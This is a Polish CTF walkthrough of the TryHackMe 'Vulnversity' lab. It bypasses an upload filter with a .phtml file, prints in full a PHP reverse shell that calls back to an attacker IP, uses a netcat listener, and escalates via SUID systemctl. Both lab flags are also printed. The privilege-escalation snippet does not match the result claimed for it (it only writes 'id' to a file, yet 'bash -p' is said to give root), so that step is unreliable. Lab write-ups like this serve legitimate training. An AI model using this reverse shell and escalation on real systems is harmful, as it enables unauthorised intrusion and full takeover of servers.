**CTF - Vulnversity**

**Autor**: adi7312

**Poziom trudności**: łatwy

**IP podatnej maszyny:** 10.10.183.177

## **Task1 - rekonesans**

Zaczynamy od przeskanowania portów w celu detekcji wersji usług hosta, systemu operacyjnego:

    nmap -sV -O -p- -T5 10.10.183.177





Na podstawie powyższego outputu możemy odpowiedzieć na pytania znajdujące się na stronie tryhackme.




## **Task2 - Locating directories using GoBuster**

Uruchamiamy narędzie *GoBuster* na porcie 3333 (czyli na tym porcie gdzie uruchomiony j) korzystając z poniższego polecenia:

    gobuster dir -u http://10.10.183.177:3333 -w /usr/share/wordlists/dirb/small.txt





Na podsatwie powyższego outputu możemy odpowiedzieć stronę i sprwadzić zawartość powyższych storn, uwagę przykuwa strona na której możemy wrzucać pliki:





Jednocześnie podstrona */internal/* jest odpowiedzia na pytania zadane na stronie CTFa:


## **Task 3 - Compromise the webserver**

W pierwszej kolejności spróbujemy wrzucić przykładowy plik *test.php* w celu sprwadzenia czy możemy w łatwy sposób wrzucić plik z złośliwym kodem. Okazuje się jednak że niestety serwer filtruje pliki z rozszerzeniem .php. 



Jednak istnieją inne rozszerzenia które mogą zawierać kod napisany w php i jednocześnie zostaną przepuszczone przez filtr. Skorzystamy z narzędzia BurpSuite w celu podjęcia próby przesłania pliku z rozszerzeniem innym niż .php. Przy okazji możemy odpowiedzieć na pierwsze pytanie:





Uruchamiamy zatem BurpSuite, uruchamiamy FoxyProxy w przeglądarce oraz w Burpie włączamy *intercept*. Utworzymy odrazu odpowiedni plik z reverse shellem - *rev_shell.php*. Zawartość pliku znajduje się poniżej


```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.198.6';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
//
// Daemonise ourself if possible to avoid zombies later
//
// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}
	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}
// Change to a safe directory
chdir("/");
// Remove any umask we inherited
umask(0);
//
// Do the reverse shell...
//
// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}
// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);
$process = proc_open($shell, $descriptorspec, $pipes);
if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}
// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);
printit("Successfully opened reverse shell to $ip:$port");
while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}
	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}
	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}
	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}
	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}
?> 
```

Następnie wrzućmy nasz ładunek i kliknijmy *Sumbit*. W Burpie powinien pokazać nam się żądanie  HTTP POST związany z wrzucaniem właśnie naszego pliku, przerzućmy nasze żądanie do intrudera (CTRL + I). Wyczyśmy wszystkie zaznaczone automatycznie przez Burpa parametry i ręcznie wybierzmy rozszerzenie naszego pliku, w taki sposób jak zaprezentowano poniżej:





W zakładce payload uzupełnijmy listę tak jak poniżej:





Uruchommy teraz atak. Jakby mogło się wydawać wszystko zadziałało, w końcu dostaliśmy kod odpowiedzi 200 (OK), jednak nie zapominajmy że mogliśmy dostać odpowiedzić po prostu że nie możemy takiego pliku wrzucić, więc zamiast patrzec po kodzie odpowiedzi, powinnismy szukac po długości odopowiedzi, request gdzie argumentem był *phtml* okazał się jedynym skutecznym, co można potwierdzić w samej odpowiedzi:





Zmieńmy zatem rozszerzenie naszego pliku na .phtml i wrzućmy go raz jeszcze, tym razem z sukcesem. Na maszynie atakującej uruchamiamy nasłuchiwanie na porcie 1234 (tak jak podaliśmy w reverse shellu), robimy to poleceniem `nc -nvlp 1234`. Uruchamiamy nasz payload wpisując w przeglądarce:


    http://10.10.183.177:3333/internal/uploads/rev_shell.phtml


Udało nam się uzyskać dostęp do serwera





Gdy wejdziemy w folder /home i wpiszemy polecenie `ls` zobaczymy nazwę użytkownika *bill*, zatem możemy odpowiedzieć na pytanie kto zarządza tym serwerem.


Przejdźmy teraz do folderu *bill* i otwórzmy plik *user.txt* (poleceniem `cat user.txt`) który zawiera pierwszą flagę. 

Flaga: `8bd7992fbe8a6ad22a63361004cfcedb`





## **Task 4 - Privilege Escalation**

W międzyczasie możemy ustabilizować naszego shella poleceniem:

    python -c 'import pty; pty.spawn("/bin/bash")'

Poszukujemy plików które mają ustawiony bit SUID, robimy to poleceniem:

    find / -perm -u=s -type f 2>/dev/null

Z całego outputu najbardziej wyróżnia się */bin/systemctl*. `systemctl` może służyć do kontrolowania usług i zarządzania nimi systemd. Systemd składa się z zestawu demonów, bibliotek i narzędzi, które umożliwiają administrację i konfigurację systemu oraz interakcję z rdzeniem systemu Gnu / Linux.

Skorzystamy z strony: [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#suid), możemy tam znaleźć pełną instrukcję jak należy dokonać eskalacji uprawnień związanej z poleceniem systemctl.

```bash
sudo install -m =xs $(which systemctl) .
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```

Po wpisaniu `bash -p` otrzymujemy dostęp do serwera jako root! Wystarczy jednie odczytać końcową flagę w folderze */root* (`cat /root/root.txt`).

Flaga: `a58ff8579f0a9270368d33a9966c7fd5`



